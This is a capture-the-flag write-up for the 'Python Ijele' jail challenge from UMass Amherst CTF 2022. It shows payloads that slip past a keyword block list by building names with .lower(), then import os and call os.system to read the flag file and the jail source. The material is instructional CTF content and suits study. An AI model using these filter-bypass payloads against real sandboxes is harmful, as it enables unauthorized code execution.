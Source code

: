 # Python Ijele

**Author**: S|{oto

**CTF**:  UMass Amherst CTF 2022

**Description**: 

*By Thomas C.* 

*Google translate broke when I was making the instructions for this python jail.*

`nc 34.148.103.218 1227` 							 						 					

**Hints**: n/a

After running `nc 34.148.103.218 1227`, we're immediately greeted with: 

```
wewe have aqhephukile benim bahasa codice. Unesi la palabra sapi in Pelekania
>>>
```

As the description of the problem implies, we can use Google Translate to understand this message.  Putting the whole message into Google Translate doesn't yield anything, since the prompt is in multiple different languages.  To fix this, simply translate each word individually.  This gives the sentence `you have cracked my language code. Enter the word cow in English`.  

After you input `cow`, the following text appears:

```
Break out of this simple python jail! You are not allowed to use the words eval, exec, import, open, os, read, system, or write.
>>>
```

Some simple testing will show that, indeed, trying to run any of the listed commands fails and disconnects you from the server.  Additionally, even if your input is acceptable, you can only run one command before you are disconnected from the server.  Thus, any solution we find must print the flag using one command.

First, we need to understand the filesystem that we're within, so that we can hopefully find a file containing the flag.  By default, python contains a dictionary of built-in commands which we can access using `__builtitns__.__dict__[functionname]`.  However, if `functionname` is any of the disallowed words, the jail will recognize that and stop us.  Luckily, since `functionname` is just a string argument here, we can evade the jail's detection by replacing `functionname` with `'FUNCTIONNAME'.lower()`.  Using this principle, we can chain together a series of such statements to create this: 

```python
Break out of this simple python jail! You are not allowed to use the words eval, exec, import, open, os, read, system, or write.
>>> print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['LISTDIR'.lower()]('.')
```

The above input accesses the `import` command and gives it the argument `os` to import the os module.  Then, it runs the method `listdir('.')`, from the `os` module, which returns a list of the files in the current directory.  Finally, the print statement outputs this list to the command line.  As a result, we get the following output:

`['.bashrc', '.bash_logout', '.profile', 'ynetd', 'Dockerfile', 'flag', 'ijele.py']`

So, we have found our flag!  Now we just have to read the contents of it.  To do this, let's alter our previous command.  We're still going to use the `os` module, but this time we'll use the method `system`, which takes UNIX commands as an argument and runs them.  In this case, we want to run `os.system('cat ./flag')` to print out the contents of the `flag` file.  Thus, we craft the following input:

`__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat "./flag"')`

Using this, the flag is printed for us: `UMASS{congrats-now-you-are-multilingual}`



For clarity, here is the full text of the two connections used to get the flag.

```python
$ nc 34.148.103.218 1227
wewe have aqhephukile benim bahasa codice. Unesi la palabra sapi in Pelekania
>>> cow
Break out of this simple python jail! You are not allowed to use the words eval, exec, import, open, os, read, system, or write.
>>> print(__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['LISTDIR'.lower()]('.'))
['.bashrc', '.bash_logout', '.profile', 'ynetd', 'Dockerfile', 'flag', 'ijele.py']

$ nc 34.148.103.218 1227
wewe have aqhephukile benim bahasa codice. Unesi la palabra sapi in Pelekania
>>> cow
Break out of this simple python jail! You are not allowed to use the words eval, exec, import, open, os, read, system, or write.
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat "./flag"')
UMASS{congrats-now-you-are-multilingual}
```

If, for learning purposes, you want to see the exact jail code that you're evading, you can use the following slightly modified version of the flag-printing input.

```python
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat "./ijele.py"')
def main():
    print('wewe have aqhephukile benim bahasa codice. Unesi la palabra sapi in Pelekania')
    code = input('>>> ')
    if code.lower() == 'cow':
        print('Break out of this simple python jail! You are not allowed to use the words eval, exec, import, open, os, read, system, or write.')
        text = input('>>> ')
        for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
            if keyword in text:
                print('Play by the rules!!! Try again.')
                return
        exec(text)
    else:
        print('Wrong code to break out. Sorry, try again!')
```

